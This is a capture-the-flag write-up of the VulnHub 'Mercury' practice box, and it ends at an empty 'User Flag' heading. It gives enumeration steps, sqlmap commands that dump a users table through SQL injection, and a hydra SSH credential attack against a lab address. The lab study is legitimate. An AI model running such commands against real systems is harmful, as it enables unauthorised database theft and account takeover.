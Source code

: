 # MERCURY
Mercury is an easier box, with no brute-forcing required. There are two flags on the box: a user and a root flag which include an md5 hash. This has been tested on VirtualBox so may not work correctly on VMware.

- image file can be downloaded from [here](https://www.vulnhub.com/entry/the-planets-mercury,544/)

## Enumeration
- nmap scan:
![mercury_nmap](https://github.com/shybu9/vulnhub/assets/112984045/7ebc1461-7fb5-4bfd-8faa-1aaef88c3a8d)

- port scan using [personal_tool]():
![mercury_portscan](https://github.com/shybu9/vulnhub/assets/112984045/d0eb86bf-00c2-4745-ae83-351a759a7f61)

- gobuster scan:
![mercury_gobuster_comman](https://github.com/shybu9/vulnhub/assets/112984045/77323c20-aae6-4529-a7bc-f1f671ba2e4e)

### After scan analysis:
- open ports: 22 (SSH) & 8080 (HTTP_PROXY)
- web directories: /robots.txt

### Web page enumeration:
![mercury_robots](https://github.com/shybu9/vulnhub/assets/112984045/3bb9d318-d61e-4137-93fb-1b3e43fa3364)

- robots.txt disallows '*' user agent for directory '/'

```
http://192.168.188.169/*
```
![mercury_ ](https://github.com/shybu9/vulnhub/assets/112984045/fa516418-d1a9-4bf0-b902-c5f47f3e01ca)

-- directory '/mercuryfacts' seems to have an SQLI-vulnerable perimeter

```
sqlmap --url http://192.168.188.169/mercuryfacts --dbs --batch
```
![mercury_sqli_dbs](https://github.com/shybu9/vulnhub/assets/112984045/bfe70f54-59d1-4b35-b53b-8e8d819b9699)

```
sqlmap --url http://192.168.188.169/mercuryfacts -D mercury --tables --batch
```
![mercury_sqli_users](https://github.com/shybu9/vulnhub/assets/112984045/7a120954-ee73-4338-ab15-746ce2399adc)

```
sqlmap --url http://192.168.188.169/mercuryfacts -D mercury -T users --dump --batch
```
![mercury_sqli_user_pass](https://github.com/shybu9/vulnhub/assets/112984045/77c357d5-59d6-4e5a-9f0a-9595d06c1465)

- A list of usernames and passwords can be generated from this sqlmap dumps

### Finding the right credentials using hydra
```
hydra -L users_list -P pswds_list ssh://192.168.188.169
```
![mercury_hydra](https://github.com/shybu9/vulnhub/assets/112984045/d766d37a-8ec7-41d6-bdb7-f3396375f6ac)

### User Flag

